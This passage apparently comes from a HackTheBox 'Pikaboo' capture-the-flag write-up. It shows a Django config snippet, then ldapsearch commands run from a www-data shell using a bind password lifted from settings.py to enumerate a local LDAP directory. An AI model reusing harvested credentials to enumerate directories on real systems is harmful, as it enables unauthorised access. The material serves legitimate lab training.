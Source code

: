``` python
CORS_ALLOW_METHODS = "GET"

CORS_URLS_REGEX = r"^/api/.*$"

REST_FRAMEWORK = {
    "DEFAULT_RENDERER_CLASSES": ("drf_ujson.renderers.UJSONRenderer",),
    "DEFAULT_PARSER_CLASSES": ("drf_ujson.renderers.UJSONRenderer",),
    "DEFAULT_PAGINATION_CLASS": "rest_framework.pagination.LimitOffsetPagination",
    "PAGE_SIZE": 20,
    "PAGINATE_BY": 20,
}

```

Also the machine has LDAP port open and serving on localhost only. On port 81 apache is running.

<img src="/image/hackthebox/pikaboo/17.png" alt="17" style="zoom: 50%;" />

I used the credentials from `settings.py` file using ldapsearch tool.

```bash
www-data@pikaboo:/opt/pokeapi/config$ ldapsearch -h localhost -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w "J~42%W?PFHl]g" -s base namingContexts
# extended LDIF
#
....[snip]....
# requesting: namingContexts 
#

#
dn:
namingContexts: dc=htb

....[snip]....

# numResponses: 2
# numEntries: 1
```

This gave me DC which is Domain Component for the ldap. I will use this DC in `ldapsearch` query,

```bash
www-data@pikaboo:/opt/pokeapi/config$ ldapsearch -h localhost -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w "J~42%W?PFHl]g" -b "DC=htb"
# extended LDIF
....[snip]....
#

# htb
dn: dc=htb
objectClass: top
objectClass: dcObject
objectClass: organization
o: htb
dc: htb
```
